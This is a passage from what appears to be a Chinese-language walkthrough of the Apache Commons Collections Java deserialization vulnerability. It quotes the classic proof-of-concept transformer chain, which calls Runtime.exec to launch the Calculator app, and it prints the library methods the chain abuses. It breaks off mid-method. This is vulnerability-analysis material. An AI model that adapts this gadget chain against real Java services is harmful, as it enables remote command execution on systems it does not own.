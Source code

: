 先重点关注这三个部分

![-w519](media/15662017023838/15662839498864.jpg)


首先看poc中的这部分代码
```java
Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(Runtime.class),

        new InvokerTransformer("getMethod",
                new Class[]{String.class, Class[].class},
                new Object[]{"getRuntime", new Class[0]}),

        new InvokerTransformer("invoke",
                new Class[]{Object.class, Object[].class},
                new Object[]{null, new Object[0]}),

        new InvokerTransformer("exec",
                new Class[]{String.class},
                new Object[]{"open /Applications/Calculator.app"}),
};
Transformer transformerChain = new ChainedTransformer(transformers);
```

漏洞涉及到的三个方法

org.apache.commons.collections.functors.InvokerTransformer
```java
public Object transform(Object input) {
    if (input == null) {
        return null;
    } else {
        try {
            Class cls = input.getClass();
            Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
            return method.invoke(input, this.iArgs);
        } catch (NoSuchMethodException var5) {
            throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' does not exist");
        } catch (IllegalAccessException var6) {
            throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' cannot be accessed");
        } catch (InvocationTargetException var7) {
            throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' threw an exception", var7);
        }
    }
}
```
org.apache.commons.collections.functors.ChainedTransformer
```java
public ChainedTransformer(Transformer[] transformers) {
    this.iTransformers = transformers;
}
```
org.apache.commons.collections.functors.ChainedTransformer
```java
public Object transform(Object object) {
    for(int i = 0; i < this.iTransformers.length; ++i) {
        object = this.iTransformers[i].transform(object);
```
